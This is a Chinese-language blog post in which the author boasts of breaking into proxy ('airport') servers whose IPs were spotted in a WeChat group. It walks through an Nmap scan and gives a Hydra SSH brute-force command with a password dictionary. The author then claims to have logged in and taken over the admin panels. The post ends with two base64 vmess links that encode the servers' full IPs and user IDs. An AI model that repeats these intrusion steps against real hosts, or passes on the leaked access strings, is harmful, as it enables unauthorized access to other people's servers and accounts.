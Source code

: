 ```yaml
---
title: 非法搭建机场获取权限
author: APT - 0x44LL
date: 2021-12-25
category: Jekyll
layout: post
---
```


## 天网恢恢 疏而不漏
![smiley](/public/DocsPics/20220207155219.png)

根据wx群聊看到有人发机场截图并暴露了IP地址
![smiley](/public/DocsPics/20220207155341.jpg)

于是全部记录了下来，依次排列好；

```
168.63.xxx.106
20.187.xxx.80
20.205.xxx.204
20.212.xxx.178
```

快速Nmap扫描了一波；
![smiley](/public/DocsPics/20220207155424.png)

看到22端口开放
Hydrawin版本加载字典进行端口爆破，当然要使用上我亲自开过光的字典和飞升过的动态IP了

```
hydra.exe -l root -P 22 开光字典.txt -vV -o ssh.log -e ns 127.0.0.1 ssh
```

![smiley](/public/DocsPics/20220207155510.png)

**于是就这样进入了服务器...**


数据库
面板账户唯一登入密码
![smiley](/public/DocsPics/20220207155528.png)

所有的管理后台面板全部拿到权限
![smiley](/public/DocsPics/20220207155602.png)
![smiley](/public/DocsPics/20220207155713.png)

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1GMlMtSEstODAtV1MiLAogICJhZGQiOiAiMTY4LjYzLjIxMi4xMDYiLAogICJwb3J0IjogODAsCiAgImlkIjogIjRjOTA4ZTgxLWM2YzYtNGNiNy1lZDQ5LWRjODhlN2NkZjkxNCIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1CMVMtSEstODAtV1MiLAogICJhZGQiOiAiMjAuMjA1LjExOC4yMDQiLAogICJwb3J0IjogODAsCiAgImlkIjogIjhjYzgwOWQzLTk1YzAtNDg4Yi1jZmUwLTk4ZWVlZDM4MzYzYiIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```
![smiley](/public/DocsPics/20220207155731.png)

很遗憾的是这些服务器都没什么东西；

查询了一下是刚开不久的；
